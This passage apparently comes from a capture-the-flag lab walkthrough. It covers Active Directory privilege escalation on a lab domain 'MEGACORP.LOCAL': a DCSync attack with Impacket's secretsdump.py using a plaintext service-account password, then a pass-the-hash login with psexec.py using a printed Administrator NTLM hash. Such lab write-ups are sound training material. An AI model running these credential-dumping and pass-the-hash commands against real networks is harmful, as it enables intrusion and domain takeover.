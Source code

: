 ### &#9676; Privilege Escalation
=========================

![](media/image142.png)

In order to leverage the **GetChangesAll** permission, we can use
Impacket's *secretsdump.py* to perform a *DCSync* attack and dump the
NTLM hashes of all domain users.
```
  ---------------------------------------------------------------------------------------
  **secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc\_bes:Sheffield19@10.10.10.30**
  ---------------------------------------------------------------------------------------
```
![](media/image151.png)

We can see the default domain Administrator NTLM hash

![](media/image152.png)

We can use this in a *PTH attack* (Pass-the-Hash attack) to gain
elevated access to the system.

For this, we can use Impacket's **psexec.py** as follow:
```
  ----------------------------------------------------------------------------------------------------
  **psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>**
  ----------------------------------------------------------------------------------------------------
```
For <**NTML hash**>:<**NTLM hash**> we will use:

-   **NTML hash --> aad3b435b51404eeaad3b435b51404ee**

-   **NTLM hash --> 8a4b77d52b1845bfe949ed1b9643bb18**
```
  ----------------------------------------------------------------------------------------------------------------------------------
  **psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18**
  ----------------------------------------------------------------------------------------------------------------------------------
```